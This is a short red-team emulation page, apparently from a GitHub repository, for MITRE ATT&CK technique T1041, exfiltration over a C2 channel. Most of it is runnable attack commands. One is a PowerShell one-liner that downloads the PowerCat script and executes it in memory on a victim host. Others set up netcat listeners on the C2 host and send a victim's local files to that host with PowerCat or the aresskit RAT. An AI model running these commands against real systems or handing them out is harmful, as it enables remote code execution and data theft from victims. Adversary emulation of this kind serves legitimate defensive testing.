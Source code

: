 # Exfiltration Over Command and Control Channel

---
* **ID**: T1041
* **Source**: <https://attack.mitre.org/techniques/T1041/>
---

# Details

## PowerCat
* Load PowerCat in command line on victim host:
```
powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```
* Start a listener on C2 host:
```
nc -lvvp <port-of-C2> > out.file
```
* Transfer local files to remote C2 host using `PowerCat`:
```
powercat -c <ip-of-C2> -p <port-of-C2> -i <path-of-local-files>
```

## RAT
### Customized Aresskit
* [Deploy](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1219/T1219.md) customized `aresskit` to victim host
* Transfer local files to C2 host:
  * Start a listener on C2 host:
  ```
  nc -lvvp <port_of_C2> > out.file
  ```
  * Transfer local files to remote host using `aresskit`:
  ```
  aresskit> FileHandler::uploadFileNew <path_of_local_file> <ip_of_C2> <port_of_C2>
  ```

# References

* <https://github.com/besimorhino/powercat>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1219/T1219.md>
